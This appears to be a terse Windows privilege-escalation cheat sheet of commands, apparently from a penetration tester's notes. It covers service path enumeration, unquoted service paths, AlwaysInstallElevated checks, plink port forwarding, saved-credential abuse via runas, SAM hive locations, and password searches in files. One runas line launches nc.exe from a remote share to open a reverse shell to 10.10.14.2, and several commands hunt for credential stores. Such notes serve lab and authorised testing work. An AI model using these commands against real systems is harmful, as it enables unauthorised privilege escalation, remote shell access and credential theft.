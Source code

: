 sc.exe  
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  
type Servicenames.txt  
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  

### Unquoted Service Path  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """  

sc query  
sc qc service name  

### AlwaysInstallElevated << IF 64 bits use:  %SystemRoot%\Sysnative\reg.exe  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Service only available from inside  
netstat -ano  
upload plink.exe  

plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"

### Pasword in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
cmdkey /list        << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  
